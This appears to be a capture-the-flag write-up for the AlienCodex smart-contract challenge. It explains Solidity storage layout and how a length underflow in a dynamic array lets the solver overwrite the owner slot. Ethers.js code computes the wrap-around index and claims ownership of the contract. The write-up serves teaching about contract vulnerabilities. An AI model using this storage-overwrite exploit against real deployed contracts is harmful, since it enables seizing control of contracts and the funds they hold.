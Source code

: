 ## AlienCodex
To solve this challenge we need to claim ownership of the contract.

Here it is essential to check how the storage is structured. 
Firstly, since we inherit Ownable contract, the contract's storage variables will be laid out first.
It consists of a single 20-byte `owner` address. Then, the AlienCodex contract's `contact` variable will be laid out. 
Since it is a boolean, it will still fit into the same 32-byte storage slot.
Finally, a dynamically-sized bytes32 array is defined.

When we have a dynamic complex type such as a dynamic array, the reserved slot p contains the length of the array as a uint256, and the array data itself is located sequentially at the address keccak256(p).

Here is how the storage will look like:
```js
slot 0: owner, contact
slot 1: codex.length
// ...
slot keccak(1): codex[0]
slot keccak(1) + 1: codex[1]
slot keccak(1) + 2: codex[2]
slot keccak(1) + 3: codex[3]
// ...
```

Note that the array items wrap around after they reached the max storage slot of 2^256 - 1. Using a bit of math we can find the codex index that writes to the owner variable at storage slot 0. However, this bug won't be valid in solidity newer versions.

```js
need to find array index that maps to 0 mod 2^256
i.e., keccak(1) + index mod 2^256 = 0
<=> index = -keccak(1) mod 2^256
<=> index = 2^256 - keccak(1) as keccak(1) is in range
```

So, now using ethers.js we can:
```js
tx = await contract.make_contact();
await tx.wait();

// all of contract storage is a 32 bytes key to 32 bytes value mapping
// first make codex expand its size to cover all of this storage
// by calling retract making it overflow
tx = await contract.retract();
await tx.wait();

// now try to index the map in a way such that we write to the owner variable at slot 0
// codex[0] value is stored at keccak(codexSlot) = keccak(1)
// codexSlot = 1 because slot 0 contains both 20 byte address (owner) & boolean
// needs to be padded to a 256 bit
const codexBegin = BigNumber.from(
    ethers.utils.keccak256(
        `0x0000000000000000000000000000000000000000000000000000000000000001`
    )
);
const ownerOffset = BigNumber.from(`2`).pow(`256`).sub(codexBegin);

const eoaAddress = await eoa.getAddress()
tx = await contract.revise(ownerOffset, ethers.utils.zeroPad(eoaAddress, 32));
await tx.wait();
```